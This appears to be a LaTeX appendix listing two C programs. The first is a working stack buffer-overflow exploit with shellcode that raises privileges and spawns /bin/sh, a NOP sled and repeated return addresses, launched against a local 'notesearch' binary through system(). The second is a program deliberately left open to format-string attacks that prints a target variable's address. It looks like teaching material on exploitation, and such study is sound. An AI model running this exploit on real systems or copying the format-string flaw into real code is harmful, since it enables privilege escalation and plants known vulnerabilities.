 \documentclass[11pt, a4paper]{article}
\begin{document}
\subsubsection{exploit\_notesearch.c}
\begin{lstlisting}
	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	char shellcode[]= 
	"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
	"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
	"\xe1\xcd\x80";
	
	int main(int argc, char *argv[]) {
		unsigned int i, *ptr, ret, offset=270;
		char *command, *buffer;
		
		command = (char *) malloc(200);
		bzero(command, 200); // zero out the new memory
		
		strcpy(command, "./notesearch \'"); // start command buffer
		buffer = command + strlen(command); // set buffer at the end
		
		if(argc > 1) // set offset
		offset = atoi(argv[1]);
		
		ret = (unsigned int) &i - offset; // set return address
		
		for(i=0; i < 160; i+=4) // fill buffer with return address
		*((unsigned int *)(buffer+i)) = ret;
		memset(buffer, 0x90, 60); // build NOP sled
		memcpy(buffer+60, shellcode, sizeof(shellcode)-1); 
		
		strcat(command, "\'");
		
		system(command); // run exploit
		free(command);
	}
\end{lstlisting}

\subsubsection{fmt\_vuln.c}
\begin{lstlisting}
	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	
	int main(int argc, char *argv[]) {
		char text[1024];
		static int test_val = -72;
		
		if(argc < 2) {
			printf("Usage: %s <text to print>\n", argv[0]);
			exit(0);
		}
		strcpy(text, argv[1]);
		
		printf("The right way to print user-controlled input:\n");
		printf("%s", text);
		
		
		printf("\nThe wrong way to print user-controlled input:\n");
		printf(text);
		
		printf("\n");
		
		// Debug output
		printf("[*] test_val @ 0x%08x = %d 0x%08x\n", &test_val, test_val, test_val);
		
		exit(0);
	}
\end{lstlisting}



\newpage
\printbibliography
\newpage
\printglossaries
\end{document}
